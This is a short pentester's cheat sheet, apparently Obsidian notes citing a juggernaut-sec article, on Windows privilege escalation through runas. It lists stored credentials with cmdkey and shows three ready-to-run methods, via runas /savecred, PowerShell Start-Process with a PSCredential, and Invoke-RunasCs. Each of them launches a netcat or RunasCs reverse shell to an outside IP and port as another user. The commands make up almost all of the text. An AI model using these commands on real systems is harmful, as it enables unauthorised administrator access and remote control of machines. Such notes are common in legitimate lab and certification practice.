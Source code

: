 https://juggernaut-sec.com/runas/

# Method 1
%% There should be a stored password for a user! %%
```cmd
cmdkey /list
runas /env /noprofile /savecred /user:JUGG-efrost\administrator "c:\temp\nc.exe 172.16.1.30 443 -e cmd.exe"
```
![[Pasted image 20240106203833.png]]


# Method 2 - Runas with Powershell
## Method 2.1
```powershell
$secpasswd = ConvertTo-SecureString "[password]" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("juggernaut.local\cmarko", $secpasswd)
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 192.168.45.167 443 -e cmd.exe" -Credential $mycreds
```

## Method 2.2
- Download `Invoke-RunasCs.ps1`
```powershell
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command powershell.exe -Remote 10.10.13.37:1337
```


# Method 3 - GUI
If you have `RDP` access, simply run the runas command normally.
```powershell
runas /user:<domain>\<username> cmd.exe
```